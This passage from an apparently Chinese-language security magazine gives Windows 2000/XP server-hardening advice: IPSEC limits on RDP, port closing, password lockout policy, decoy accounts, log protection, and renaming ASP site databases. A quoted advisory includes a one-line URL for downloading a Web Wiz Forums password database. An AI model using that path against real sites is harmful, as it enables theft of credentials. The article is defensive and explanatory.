

图 11

世界更清静了。:-)

但，能够有固定 IP 上网的用户毕竟还只是少数，更多的用户都是拨号上网，像我就没有固定 IP，看来用上面指定一个 IP 的办法还不是很可行。那怎么办？

办法是有的，虽然更多的用户是拨号上网，没有固定 IP 地址。如果我们固定在一个地方用专用账号上网，比如汕头宽带网的用户，虽然他每次上网的 IP 地址都不一样，但每一个地区能够分配到的 IP 地址的范围是固定的，所以说那些拨号上网的用户虽然每次上网的 IP 地址不尽相同，但他们总是固定在几个特定的 C 类地址范围（关于你拨号上网 IP 地址的范围，请咨询当地的 ISP）。现在，我们对服务器做相应的设置，允许 IP 地址为 61.141.13.* 可以连接到 3389 端口，于是，我们原先允许连接的地址就成了如图 12 所示。



图 12

其余的不用改。同样，将你拨号上网时有可能获得的 IP 地址段也加进去。

通过上面的修改、设置，虽然有好几个网段的地址可以通过终端连接到我们的服务器，跟单独一个 IP 的连接有着天壤之别，但这和允许任何 IP 地址都可以连接比起来，它的范围小得简直不值一提。

也许很多人在前面读到通过禁用 TCP 协议的端口来禁止终端的连接时会问，微软的终端服务不是基于 RDP 协议的么？怎么禁用 TCP 协议对应终端服务的端口后，其他人就无法连接了呢？具体是什么原因我也不是很清楚，我在网上也找不到这方面有用的资料（如果你有这方面的资料，麻烦发给我一份或告知一声，我的 E-mail 是：netff@21cn.com）所以我也不好乱说，以免误导他人。

IPSEC 是一个非常不错的工具，虽然使用起来让人觉得非常复杂，但它的功能着实强大，是加强系统安全的一个很重要、很有用的工具。更重要的是，它是系统自带的。

经过上面的修改、设置，我们的终端服务器应该是很安全的了，但它仅仅是系统安全的一小部分，也许小到不值一提，但请各位别忘了相对的安全是由很多不起眼的小环节累积成的。

注：网上有很多介绍终端服务安全的文章，但一般都是上文提到的“修改端口号”、“隐藏登录用户名”及“启用终端审核”。总体感觉是他们写得不错，但都写得不太全，借这两天替朋友配置服务器用到终端服务之机，写了这篇文章，希望对大家有所帮助。

# “黑客”与系统管理员的较量

## ——系统管理员防御篇

文/齐峰



在“黑客”入侵篇中我们以一次入侵经历的方式为大家展现了完善的入侵是以何种方式进行的，下面我们就来对这次入侵中涉及到的一些操作系统的漏洞和弱点逐一进行分析，看看作为系统管理员应当怎样来安全地配置自己的服务器。尽管说这部分主要是针对系统管理员的，但是在很大程度上对使用 Windows 2000 和 XP 系统的个人上网用户也是实用的。

如图 1 所示。至于具体需要关闭哪些端口，就完全看个人的需要而定了。但是，从前面的人侵过程我们可以发现，一些黑客工具完全可以远程打开我们已经禁用了的服务，例如 Telnet、终端服务。遇到这种情况怎么办？微软的 2000 资源工具包和 XP 系统本身为管理员提供了 sc.exe 这个小程序，它可以做到彻底地删除一个服务，使用起来很简单，具体的用法就不在这里多说了。

## 一、关闭多余的端口

在人侵前的准备工作中，扫描端口是一个很重要的部分，因此说关闭不必要的端口可以减少我们很多麻烦。在论坛上也经常遇到新手朋友问到如果关闭某个端口之类的问题，在这里我们首先需要明确，端口与服务是相互对应的关系，开放了一个端口，必然有其相对应的服务。远望 IT 论坛的病毒与网络安全版精华区有完善的端口列表文章，无论是对于系统管理员还是个人用户来说了解这些端口都是很有必要的，建议大家去看看。在了解了端口所对应的服务后，想要关闭某个端口就很容易了，我们只需要在管理工具的服务中停止相应的服务就可以了。当然，我们还可以右键单击“网络邻居”图标，选择“属性”，查看“本地连接属性”，双击“Internet 协议（TPC/IP）”，然后选择“高级”对话框，选择“选项”，最后点击“TCP/IP 筛选”，在这里设置端口过滤，



图 1

这里需要对 139 端口多说几句，因为它在网络入侵中是一个饱受骚扰的端口，但是对于不少人来说，开放共享资源又是必须的。由于 445 端口是作为 139 端口的替代端口来使用的，因此只要 445 端口没有关闭，仍然可以共享文件。关闭 139 端口的方法很简单，只要我们不安装 netbeui 协议，就不会开放 139 端口和 NetBios 了，别人扫描也就无法得知我们的操作系统版本、用户列表等一系列信息了。

## 二、打补丁，设密码

从实际入侵开始的第一步我们可以看到，IIS 的漏洞帮了我们的大忙，而实际上更多的人侵是以弱口令作为突破点的。因为入侵者无论采用什么方式，总是会想方设法先获得一个账户和密码的。所以，我们就需要给操作系统的管理员账户设置一个足够强壮、并且好记的密码，并且打上最新的补丁。SP3 是必须的了，最新的针对 IIS 的补丁也是不可缺少的。如果嫌麻烦，还可以使用 Windowupdate 来进行补丁的安装。对于系统管理员来说，订阅微软的安全公告是很有必要的，它会告诉你有什么最新的漏洞被发现了，有什么解决措施。这可是免费的哦，只需要在微软的网站上申请就可以了。

## 三、关闭 IPC$

IPC$ 也许是出于微软的一厢情愿，但实际上对大部分用户来说它并不实用，相反却成了入侵者们的一个很好的入侵方式。至少从本次入侵来看，IPC$ 起到了很大的作用哦。关闭 IPC$ 需要修改注册表，具体方法黑防以前已经讲得很多了，这里就不再多说了。对于个人用户，如果没有特别需要，在管理工具中停止 Server 服务并且禁用是提高简单的了，这样可以彻底地关闭共享。

## 四、配置组策略

尽管在这次入侵中没有遇到用户弱口令的好运，但是从经验来看，弱口令的情况并不少见。因此，加强密码策略是非常必要的。既然微软为我们提供了功能强大的组策略，我们没有理由不用它。运行 gpedit.msc，选择“Windows 设置”中的“安全设置”，首先选择“账户策略”中的“密码策略”，在这里我们可以设置密码的复杂性、最长存留周期等，如图 2 所示。这些设置可以保证我们的密码不会被轻易猜出，而且动态的密码才是由于大多数扫描器在默认情况下具有简单的破解密码的功能，如果换上了一个足够大的字典文件，便有可能会破解我们的管理员账户的密码。在账户锁定策略中设置账户锁定阈值和账户锁定时间就可以解决这个问题，如图 3 所示。我们可以设置为输入密码 5 次错误就锁定该账户，30 分钟后再解锁，这样就可以有效防止密码被暴力破解了。



图 2



图 3

本地安全策略中的可设置项还有很多，限于篇幅和适用范围就不在这里多说了，感兴趣的读者可以仔细研究研究。当然，安全和性能始终是一对矛盾，高安全必然会使性能在一定程度上降低，反之亦然。所以，我们需要根据自己的实际情况选择其中的一个平衡点就可以了。

## 五、伪装

入侵者可以在入侵后进行克隆用户权限、修改端口等一系列的伪装行动，那么系统管理员为什么就不可以在被入侵前也进行一系列的伪装，从而迷惑入侵者呢。

- 1. 伪装用户：首先，将系统默认的内置账户 administrator 改名，然后新建一个名字为 administrator 的账户，描述改为“管理计算机(域)的内置账户”，设置好足够长的密码。仅仅将它加入 guest 组，这样便吸引了入侵者的目光去破解一个很低权限的账户，即使他破解成功也没有多大利用价值。有的时候，我们会担心自己的机器里面有没有用户被克隆了管理员权限，怎么办？入侵者可以使用系统工具来作为黑客工具，我们同样可以使用黑客工具来为管理员效劳。cca 这个黑客工具来进行检测。

（2）伪装端口：有的时候处于特别的需要，我们可能会需要运行终端服务或者 Telnet 等服务。那么，降低风险的最好方法便是修改它们的默认服务端口，修改方法与入侵篇一样。例如，我们可以将 Telnet 修改为木马冰河的默认端口 7626，将终端服务修改为 pcanwhere 的 5631。入侵者扫到了端口，自然会以为这台机器被种了木马，就拿那两个远程控制软件慢慢地连吧，呵呵。

## 六、保护事件日志

事件日志对每一位管理员来说都是非常重要的，因此它也成了入侵者的眼中钉。凡是成功入侵一台机器后，入侵者都会在退出前想方设法清除事件日志的。那么，保护好事件日志，随时做好备份就成了管理员必然的工作了。而对于个人用户来说，事件日志也会为我们提供重要线索的。那么，这些事件日志都在什么地方呢？如图 4 所示。



图 4

安全日志、系统日志和应用程序日志存放在 %systemroot%\system32\config 路径下，默认文件大小 512 KB。

- 安全日志文件：%systemroot%\system32\config\SecEvent.EVT
- 系统日志文件：%systemroot%\system32\config\SysEvent.EVT
- 应用程序日志文件：%systemroot%\system32\config\AppEvent.EVT

IIS 的日志文件位置我们可以通过日志记录的属性对话框得知，Web 的日志记录为 W3SVC1 文件夹，FTP 的日志记录为 MSFTPSVC1 文件夹。

做个勤劳的管理员，经常查看和备份日志，将有利于及时地发现问题。在这次入侵中，如果管理员能够较早地发现日志文件被清空，自然会引起怀疑。这样一来，入侵者后面的计划就很可能会落空。

## 七、全面检测，诱捕黑客：

如果我们发现有黑客入侵的迹象，千万不要手忙脚乱，要从每个可能被改动了的地方进行检查，服务、账户、系统根目录的可疑文件、进程、端口、日志文件、Documents and Settings 文件夹……再狡猾的狐狸也斗不过好猎手的。在服务列表中，我们可能会发现莫名其妙地多出了一某一项服务，例如 snake 的 socksserver 就会生成一项服务；在用户列表中，我们也许会发现某些账户的权限发生了改变，以及 guest 账户被激活之类的情况；系统根目录多出了一个 reboot.exe 文件；任务管理器的进程列表多出了 cccproxy（被安装了代理服务器软件）；在命令行下使用 netstat an 发现开发了某个木马的默认端口；日志文件中显示某一天服务器居然没有一个人来访问；Documents and Settings 文件夹下又生成了某个账户名的文件夹（这个账户曾经以图形界面登录过操作系统）。

当然，了解到自己系统可能存在的弱点，才能更好地把握入侵者的心理和入侵方式。这里，我建议大家使用微软官方的免费检测软件 MBSA（微软基准安全分析器），它以微软的官方数据库为依托，可以检测出微软大多数产品的最新漏洞，并且使用起来非常简单。这样，我们就能了解到入侵者是从哪个弱点入手进入我们的系统了。

实际上，从整个入侵和防御的过程来看，系统管理员的安全意识的重要性远高于技术。管理员多点击一次鼠标，“黑客”就很可能要多敲 n 次键盘的。管理员的安全意识差，这也正是国内网络安全状况差的一个重要原因。在黑客工具、黑客教程随处可见，网络入侵日益傻瓜化的今天，希望不论是服务器的管理人员，还是个人用户，都能负起自己的责任，提高安全防范的意识，在遭受入侵前就杜绝一切安全隐患。也希望我的文章在大家进行安全配置时能起到一些参考作用。

ASP 动态网站功能越来越强大，我们用起来也感觉特别方便，但是其安全性确实也令人担心。对很多网站来说，数据库是自己的立站之本，这样数据库的安全就显得尤为重要。本文正是从数据库这个角度出发，讨论加强 ASP 网站安全的方法，相信大家看后会有所收获。



# ASP 代码源程序下载后安全使用秘诀
## ——初做站长数据安全指南

文／星★龙

## 一、开篇初衷

网络发展速度之快不容置疑，漏洞层出不穷更让站点管理者脑筋紧绷，经常出没各大安全站点漏洞发布区，以便了解第一手资料，做到防护为先，现在已不是站点管理者杞人忧天了。不过，近日见到这样的漏洞报道：

> [Web Wiz Forums 存在密码泄露缺陷]

涉及程序：

Web Wiz Forums

描述：

Web Wiz Forums 存在密码泄露缺陷。

详细：

Web Wiz Forums 是一款功能强大的免费 ASP 电子公告牌系统。由于在缺省的情况下，密码文件是存储在 admin/wwforum.mdb 文件中，攻击者通过向目标服务器提交精心构造的下列格式的临时 HTTP 能获得密码文件：

```
text
http://www.target.com/forum/admin/
wwforum.mdb
```

攻击方法：

```
示例代码：
text
http://www.target.com/forum/admin/
wwforum.mdb
```

看了文章，感觉并不是什么程序本身存在重大漏洞，或者说根本不是什么漏洞。如果这样也算漏洞，我想我可以发现几千例，这只是站点管理员的疏忽以及对安全性的无知，作为从资源站下载来的程序，直接使用无非是对安全的忽略，尤其是以 MDB 为后缀的 Access 数据库，应更改数据库原始名称，或者更改数据库[名称+路径]，以达到安全目的。

## 二、认识 ASP

ASP 全名 Active Server Page，ASP 并不是一种语言，而是一个 Web 服务器端的开发环境，利用它可以产生和运行动态的、交互的、高性能的 Web 服务应用程序。

- ASP 的特征：
  - 完全和 HTML 集成；
  - 易于生成，无需手工编译和连接；
  - 面向对象，可以扩展 ActiveX Server 构件。

## 三、ASP 程序安装安全初识

作为一个站点的拥有者，你很容易就可以在资源下载站点搜索到你想要实现功能的 ASP 程序，因为投身于这一程序设计的人员已经相当广泛，同等功能的 ASP 源程序也是争奇斗艳，有的功能更为强大，有的界面更为科技。不过，作为一个网站管理维护人员（站长）要认识到：安全也应放在重点考虑之列。ASP 源程序安全方面代码漏洞不是初级站长所能够预见和修补的，需要我们不断地去学习和搜集资料，取得第一手信息，才能够避免你的爱站被 HACK；而由于个人使用导致安全系数降低，这是我要讲解的地方。

现在多数的 ASP 程序使用的是 MDB 格式的数据库，也就是 Access 制作而成的，这样的数据库文件在 IE 中是可以直接提交路径下载的。如果你下载了一个 ASP 程序，直接使用的话，别人可以轻松下载你的数据库文件，我利用这种管理员的疏忽轻松地夺取了某站交友列表权限，如果数据库的位置被泄露那就相当危险了。为了避免 ASP 程序的数据库文件位置被发现，首先就是要更改 MDB 的文件名字，不过也要同时更正调用文件中 MDB 的文件名，到底哪个调用文件需要更正以及哪个文件中存在 MDB 数据库文件名，一个个去查看源代码？小程序还可以，如果像“江湖”这样的大型程序，ASP 文件有几十个，这样我们可以借助工具来实现，我介绍大家一个工具[批量文件播种机]5.50版本，可以实现整个程序代码查询及代码替换的功能，是站点管理人员的必备，通过这个工具可以轻松查找到数据库调用文件及数据库文件所在调用文件的位置，并能够整体替换以及随心所欲地更换数据库文件所在的目录，这样就可以解决上述问题。还有一点，ASP 程序基本上都有管理界面及超级管理 ID，我们可以将管理界面临时删除，何时使用何时上传，这样也可以减少一些安全风险。

> 编者语：对管理界面或关键设置程序进行文件名替换或删除的确可以从某种程度上保证自己站点的安全。这样即使管理员密码被人窃取，也不会对论坛造成非常重大的损失。不错的方法哦！

## 四、[批量文件播种机]实现提高 ASP 程序安全系数

1. 打开[批量文件播种机]

如图 1 所示，此软件分为 4 个区域，即文件目录显示区、文件目录文件显示区、主按钮区、文件代码显示区。文件目录显示区显示文件的具体目录及选定目录的上、下级目录；文件目录文件显示区显示所选定目录中的具体文件名，鼠标点中后，文件代码显示区将显示相应文件的具体代码，便于操作且可视性强，主按钮区包括 6 个常规按钮，下面将具体介绍。

